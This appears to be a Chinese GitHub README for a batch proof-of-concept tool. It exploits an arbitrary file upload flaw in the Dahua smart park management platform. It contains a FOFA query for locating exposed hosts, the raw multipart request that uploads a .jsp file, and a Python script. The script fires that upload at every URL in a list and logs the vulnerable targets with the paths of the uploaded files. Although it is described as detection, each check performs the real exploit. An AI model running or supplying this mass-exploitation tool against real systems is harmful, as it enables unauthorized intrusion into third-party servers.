 # 大华智慧园区综合管理平台任意文件上传漏洞 批量检测POC

基于已公开的poc进行编写批量检测python脚本



### 0x1 漏洞简介

大华智慧园区综合管理平台是一个集智能化、信息化、网络化、安全化为一体的智慧园区管理平台，旨在为园区提供一站式解决方案，包括安防、能源管理、环境监测、人员管理、停车管理等多个方面。
大华智慧园区综合管理平台存在在野 0day 漏洞，攻击者可以通过请求/emap/devicePoint_addImgIco接口任意上传文件，导致系统被攻击与控制。



### 0x2 测绘语法

```
app="dahua-智慧园区综合管理平台"
```



### 0x3 已公开POC

```
POST /emap/devicePoint_addImgIco?hasSubsystem=true HTTP/1.1
Content-Type: multipart/form-data; boundary=A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36 Edg/110.0.1587.69
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 243
Connection: close

--A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT
Content-Disposition: form-data; name="upload"; filename="1ndex.jsp"
Content-Type: application/octet-stream
Content-Transfer-Encoding: binary

123
--A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT--
```



### 0x4 根据poc编写批量检测脚本

```
import argparse
import time
import requests

parser = argparse.ArgumentParser(description='大华智慧园区综合管理平台任意文件上传 批量PoC')
parser.add_argument('-f',help='Batch detection file name',type=str)
args = parser.parse_args()
file = args.f

def get_url(file):
    with open('{}'.format(file),'r',encoding='utf-8') as f:
        for i in f:
            i = i.replace('\n', '')
            send_req("http://"+i)

def write_result(content):
    f = open("result.txt", "a", encoding="UTF-8")
    f.write('{}\n'.format(content))
    f.close()


def send_req(url_check):
    print('{} runing Check'.format(url_check))
    url = url_check + '/emap/devicePoint_addImgIco?hasSubsystem=true'
    header = {
        'User-Agent':'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36 Edg/110.0.1587.69',
        'Content-Type':'multipart/form-data; boundary=A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT',
        'Accept':'text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2',
        'Connection':'close'
    }
    data = (
        "--A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT\r\n"
        'Content-Disposition: form-data; name="upload"; filename="1ndex.jsp"\r\n'
        "Content-Type: application/octet-stream\r\n"
        "Content-Transfer-Encoding: binary\r\n"
        "\r\n"
        "123\r\n"
        "--A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT--"
    )
    try:
        requests.packages.urllib3.disable_warnings()
        response = requests.post(url=url,headers=header,data=data,verify=False,timeout=3).json()
        if response['code'] == 1:
            result = '{} 存在任意文件上传漏洞! 请访问目标自测：{} \n'.format(url_check,
                                                            url_check + "/upload/emap/society_new/" + response['data'])
            print(result)
            write_result(result)
        time.sleep(1)
    except Exception as e:
        print(e)
        pass

if __name__ == '__main__':
    if file is None:
        print('请在当前目录下新建需要检测的url.txt')
    else:
        get_url(file)
```

### 0x5 食用方法

1、准备一个url.txt，例如：

<img src="./images/微信截图_20230711105028.png" style="zoom:50%;" />

2、执行

```
python dahua_check.py -f url.txt
```



![微信截图_20230711105248](./images/微信截图_20230711105248.png)

![微信图片编辑_20230711105427](./images/\微信图片编辑_20230711105427.jpg)

3、检测出有任意文件上传漏洞的资产会保存在同目录result.txt文件中

![微信截图_20230711104138](./images/微信截图_20230711104138.png)

4、访问一个目标测试一下是否上传成功

![微信截图_20230711110001](./images/微信截图_20230711110001.png)